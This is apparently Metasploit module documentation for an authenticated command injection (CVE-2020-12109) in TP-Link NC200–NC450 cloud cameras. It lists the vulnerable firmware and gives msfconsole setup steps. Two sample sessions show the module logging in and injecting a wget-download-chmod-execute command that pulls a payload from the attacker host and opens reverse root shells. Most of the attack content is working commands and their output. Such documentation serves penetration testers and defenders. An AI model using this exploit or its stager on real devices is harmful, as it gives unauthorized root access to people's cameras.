 ## Vulnerable Application

TP-Link cloud cameras NCXXX series (NC200, NC210, NC220, NC230, 
NC250, NC260, NC450) are vulnerable to an authenticated command 
injection. In all devices except NC210, despite a check on the name 
length in `swSystemSetProductAliasCheck`, no other checks are in place 
in order to prevent shell metacharacters from being introduced. The 
system name would then be used in `swBonjourStartHTTP` as part of a 
shell command where arbitrary commands could be injected and 
executed as root. NC210 devices cannot be exploited directly via 
`/setsysname.cgi` due to proper input validation. NC210 devices are 
still vulnerable since `swBonjourStartHTTP` did not perform any 
validation when reading the alias name from the configuration file. 
The configuration file can be written, and code execution can be 
achieved by combining this issue with CVE-2020-12110.
This module will therefore support the following TP-Link cameras:

-NC200 <= 2.1.9 build 200225

-NC220 <= 1.3.0 build 200304 

-NC230 <= 1.3.0 build 200304

-NC250 <= 1.3.0 build 200304 

-NC260 <= 1.5.2 build 200304

-NC450 <= 1.5.3 build 200304

## Verification Steps
-Turn your camera on and make sure you can connect to its web interface.

-Take note of the camera model, ip address, web interface port and credentials.

-Once that is done, open msfconsole and execute the following commands:
   
1. `use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection`
2. `set rhost [camera ip]`
3. `set rport [camera web interface port, e.g. 80 or 443]`
4. `set target [ 0 for NC200, NC220, NC230, NC250 | 1 for NC260, NC450]`
5. `set username [web interface username]`
6. `set password [corresponding password]`
7. `set payload [payload of choice, e.g. linux/mipsle/shell/reverse_tcp]` 
8. `set lhost [host ip where our reverse shell is listening]`
9. `set lport [port to listen for incoming shell]`
10. `exploit`

You should get a shell.

## Options
**USERNAME**
The web interface username

**PASSWORD**
The web interface password for the specified username

**RHOSTS**
The target camera ip address

**RPORT**
The target port (TCP)

## Scenarios

Target = 0 (TP-Link NC200, NC220, NC230, NC250)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 80
rport => 80
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 0
target => 0
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.254:6666 
[*] Authenticating with admin:YWRtaW4= ...
[+] Logged-in as admin
[+] Got cookie: t46af69kmher6f9
[+] Got token: g3cgt74qi0li8rd
[*] Using URL: http://0.0.0.0:8080/UzN4UMl7PF9
[*] Local IP: http://10.0.2.15:8080/UzN4UMl7PF9
[*] Executing command: wget -qO /tmp/jxVywWSo http://192.168.0.254:8080/UzN4UMl7PF9;chmod +x /tmp/jxVywWSo;/tmp/jxVywWSo;rm -f /tmp/jxVywWSo
[*] Client 192.168.0.1 (Wget) requested /UzN4UMl7PF9
[*] Sending payload to 192.168.0.1 (Wget)
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 3 opened (192.168.0.254:6666 -> 192.168.0.1:60141) at 2020-09-16 18:58:02 -0400
[*] Client 192.168.0.1 (Wget) requested /UzN4UMl7PF9
[*] Sending payload to 192.168.0.1 (Wget)
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 4 opened (192.168.0.254:6666 -> 192.168.0.1:60143) at 2020-09-16 18:58:04 -0400
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

```

Target = 1 (TP-Link NC260, NC450)

```
msf5 > use exploit/linux/http/tp_link_ncxxx_bonjour_command_injection
[*] No payload configured, defaulting to linux/mipsle/meterpreter/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rhost 192.168.0.1
rhost => 192.168.0.1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set rport 443
rport => 443
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set target 1
target => 1
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set username admin
username => admin
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set password password
password => password
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set payload linux/mipsle/shell/reverse_tcp 
payload => linux/mipsle/shell/reverse_tcp
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lhost 192.168.0.254
lhost => 192.168.0.254
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > set lport 5555
lport => 5555
msf5 exploit(linux/http/tp_link_ncxxx_bonjour_command_injection) > exploit

[*] Started reverse TCP handler on 192.168.0.254:5555 
[*] Authenticating with admin:0b8b946432f1ac91f0b07bd5f8df6587 ...
[+] Logged-in as admin
[+] Got cookie: s8ee6m830juadua
[+] Got token: kad9grok1ap37li
[*] Using URL: http://0.0.0.0:8080/Le4r7p9x
[*] Local IP: http://10.0.2.15:8080/Le4r7p9x
[*] Executing command: wget -qO /tmp/MzczOZUl http://192.168.0.254:8080/Le4r7p9x;chmod +x /tmp/MzczOZUl;/tmp/MzczOZUl;rm -f /tmp/MzczOZUl
[*] Client 192.168.0.1 (Wget/1.13.4 (linux-gnu)) requested /Le4r7p9x
[*] Sending payload to 192.168.0.1 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command shell session 3 opened (192.168.0.254:5555 -> 192.168.0.1:40216) at 2020-09-16 19:00:34 -0400
[*] Client 192.168.0.1 (Wget/1.13.4 (linux-gnu)) requested /Le4r7p9x
[*] Sending payload to 192.168.0.1 (Wget/1.13.4 (linux-gnu))
[*] Sending stage (84 bytes) to 192.168.0.1
[*] Command Stager progress - 100.00% done (109/109 bytes)
[*] Command shell session 4 opened (192.168.0.254:5555 -> 192.168.0.1:40220) at 2020-09-16 19:00:35 -0400
[*] Server stopped.

```

### References

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-12109

https://nvd.nist.gov/vuln/detail/CVE-2020-12109

https://seclists.org/fulldisclosure/2020/May/2
